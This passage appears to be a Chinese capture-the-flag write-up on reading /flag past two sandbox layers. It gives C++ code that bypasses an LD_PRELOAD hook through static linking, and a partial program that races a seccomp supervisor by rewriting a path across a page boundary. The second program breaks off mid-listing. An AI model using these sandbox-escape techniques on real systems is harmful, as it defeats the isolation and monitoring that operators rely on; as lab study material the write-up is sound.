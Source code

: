 ## 为什么要打开 /flag 

### LD_PRELOAD

第一题会使用 LD_PRELOAD 阻碍我们使用 open 相关函数，静态链接一个 libc 即可绕过

```cpp
#include <cstdio>

int main() {
    FILE *fp = fopen("/flag", "r");
    char buffer[256];
    fscanf(fp, "%[^\n]", buffer);
    printf("%s\n", buffer);
    fclose(fp);    
    return 0;
}
```

编译时添加 `-static` 选项

## Seccomp

把 `/flag` 拆分为两部分，一个单独的 `\0` 放在页面尾部，`flag` 放在下一页。当 Supervisor 来读内存的时候触发缺页中断，从而被我们检测到，以最快的速度把 `/` 写上去，这样内核执行真正 syscall 的时候系统看到的就是 `/flag`

```cpp
#include <cstdint>
#include <cstdio>
#include <cstring>
#include <fcntl.h>
#include <sched.h>
#include <unistd.h>
#include <sys/mman.h>
#include <sys/signal.h>
#include <sys/wait.h>

const int page_size = 0x1000;
const int stack_size = 1 << 20;


inline void mincore_wait(void *addr) {
    int pagemap = open("/proc/self/pagemap", O_RDONLY);

    uint64_t page;
    off64_t offset = ((off64_t) addr) / page_size * 8;

    while (pread64(pagemap, &page, sizeof(page), offset) != -1) {
        if (page & (1LL << 63)) return;
    }
}

int child_main(void *addr) {
    char *fslash = (char *) addr;

    mincore_wait(fslash);
    *fslash = '/';  // write a '/' at the end of page, just race with system!

    return 0;
}

int main() {
    void *addr = mmap(nullptr, 2 * page_size, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
```